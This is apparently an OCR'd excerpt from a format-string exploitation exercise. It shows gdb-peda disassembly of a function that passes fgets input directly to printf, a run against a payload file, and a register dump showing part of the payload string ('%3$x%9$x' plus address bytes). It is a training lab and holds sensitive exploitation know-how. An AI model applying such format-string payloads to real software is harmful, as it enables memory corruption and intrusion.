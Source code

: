 ```
   0x000000000040066a <+4>:   sub    rsp,0x70
   0x000000000040066e <+8>:   mov    rax,QWORD PTR fs:0x28
   0x0000000000400677 <+17>:  mov    QWORD PTR [rbp-0x8],rax
   0x000000000040067b <+21>:  xor    eax,eax
   0x000000000040067d <+23>:  mov    rdx,QWORD PTR [rip+0x2009cc]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400684 <+30>:  lea    rax,[rbp-0x70]
   0x0000000000400688 <+34>:  mov    esi,0x64
   0x000000000040068d <+39>:  mov    rdi,rax
   0x0000000000400690 <+42>:  call   0x400550 <fgets@plt>
   0x0000000000400695 <+47>:  lea    rax,[rbp-0x70]
   0x0000000000400699 <+51>:  mov    rdi,rax
   0x000000000040069c <+54>:  mov    eax,0x0
   0x00000000004006a1 <+59>:  call   0x400530 <printf@plt>
   0x00000000004006a6 <+64>:  mov    eax,DWORD PTR [rip+0x2009b0]        # 0x60105c <target0>
   0x00000000004006ac <+70>:  cmp    eax,0xace5
   0x00000000004006b1 <+75>:  jne    0x4006ca <fun0+100>
   0x00000000004006b3 <+77>:  mov    eax,DWORD PTR [rip+0x2009a7]        # 0x601060 <target1>
   0x00000000004006b9 <+83>:  cmp    eax,0xfacade
   0x00000000004006be <+88>:  jne    0x4006ca <fun0+100>
   0x00000000004006c0 <+90>:  mov    edi,0x4007b8
   0x00000000004006c5 <+95>:  call   0x400510 <puts@plt>
   0x00000000004006ca <+100>: mov    eax,DWORD PTR [rip+0x20098c]        # 0x60105c <target0>
   0x00000000004006d0 <+106>: mov    esi,eax
   0x00000000004006d2 <+108>: mov    edi,0x400825
   0x00000000004006d7 <+113>: mov    eax,0x0
   0x00000000004006dc <+118>: call   0x400530 <printf@plt>
   0x00000000004006e1 <+123>: mov    eax,DWORD PTR [rip+0x200979]        # 0x601060 <target1>
   0x00000000004006e7 <+129>: mov    esi,eax
   0x00000000004006e9 <+131>: mov    edi,0x400841
   0x00000000004006ee <+136>: mov    eax,0x0
   0x00000000004006f3 <+141>: call   0x400530 <printf@plt>
   0x00000000004006f8 <+146>: nop
   0x00000000004006f9 <+147>: mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004006fd <+151>: xor    rax,QWORD PTR fs:0x28
   0x0000000000400706 <+160>: je     0x40070d <fun0+167>
   0x0000000000400708 <+162>: call   0x400520 <__stack_chk_fail@plt>
   0x000000000040070d <+167>: leave  
   0x000000000040070e <+168>: ret    
End of assembler dump.
gdb-peda$ b *fun0+59
Breakpoint 1 at 0x4006a1
gdb-peda$ r < payload
Starting program: /Hackery/escape/fmt_str/f3_64/f3_64 < payload

 [----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xafacadebedead78 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x60201f --> 0x0 
RDI: 0x7fffffffddb0 ("%3$x%9$x\255\336\276\336\312\372\n")
RBP: 0x7fffffffde20 --> 0x7fffffffde30 --> 0x400730 (<__libc_csu_init>: push   r15)
RSP: 0x7fffffffddb0 ("%3$x%9$x\255\336\276\336\312\372\n")
RIP: 0x4006a1 (<fun0+59>:  call   0x400530 <printf@plt>)
R8 : 0x60201f --> 0x0 
R9 : 0xd ('\r')
R10: 0x7ffff7dd1b78 --> 0x603010 --> 0x0 
R11: 0x246 
R12: 0x400570 (<_start>:   xor    ebp,ebp)
R13: 0x7fffffffdf10 --> 0x1 
R14: 0x0 
R15: 0x0
```